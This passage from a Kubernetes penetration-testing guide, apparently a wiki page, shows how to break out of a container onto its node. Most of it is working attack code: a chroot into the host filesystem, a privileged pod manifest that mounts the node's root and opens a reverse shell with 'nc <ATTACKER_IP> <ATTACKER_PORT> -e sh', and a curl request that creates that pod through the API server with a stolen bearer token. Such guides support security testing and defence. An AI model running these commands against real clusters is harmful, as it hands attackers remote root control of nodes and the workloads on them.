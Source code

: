 And finally you chroot into the node's system

```bash
chroot /root /bin/bash
```

Information obtained from: [Kubernetes Namespace Breakout using Insecure Host Path Volume — Part 1](https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216) [Attacking and Defending Kubernetes: Bust-A-Kube – Episode 1](https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/)

### Creating a privileged pod

The corresponding yaml file is as follows:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
    - name: everything-allowed-pod
      image: alpine
      securityContext:
        privileged: true
      volumeMounts:
        - mountPath: /host
          name: noderoot
      command: [ "/bin/sh", "-c", "--" ]
      args: [ "nc <ATTACKER_IP> <ATTACKER_PORT> -e sh" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
    - name: noderoot
      hostPath:
        path: /
```

Create the pod with curl:

```bash
CONTROL_PLANE_HOST=""
TOKEN=""

curl --path-as-is -i -s -k -X $'POST' \
    -H "Host: $CONTROL_PLANE_HOST" \
    -H "Authorization: Bearer $TOKEN" \
    -H $'Accept: application/json' \
    -H $'Content-Type: application/json' \
    -H $'User-Agent: kubectl/v1.32.0 (linux/amd64) kubernetes/70d3cc9' \
    -H $'Content-Length: 478' \
    -H $'Accept-Encoding: gzip, deflate, br' \
    --data-binary $'{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"labels\":{\"app\":\"pentest\"},\"name\":\"everything-allowed-exec-pod\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"args\":[\"nc <ATTACKER_IP> <ATTACKER_PORT> -e sh\"],\"command\":[\"/bin/sh\",\"-c\",\"--\"],\"image\":\"alpine\",\"name\":\"everything-allowed-pod\",\"securityContext\":{\"privileged\":true},\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"noderoot\"}]}],\"hostIPC\":true,\"hostNetwork\":true,\"hostPID\":true,\"volumes\":[{\"hostPath\":{\"path\":\"/\"},\"name\":\"noderoot\"}]}}\x0a' \
    "https://$CONTROL_PLANE_HOST/api/v1/namespaces/default/pods?fieldManager=kubectl-client-side-apply&fieldValidation=Strict"
```
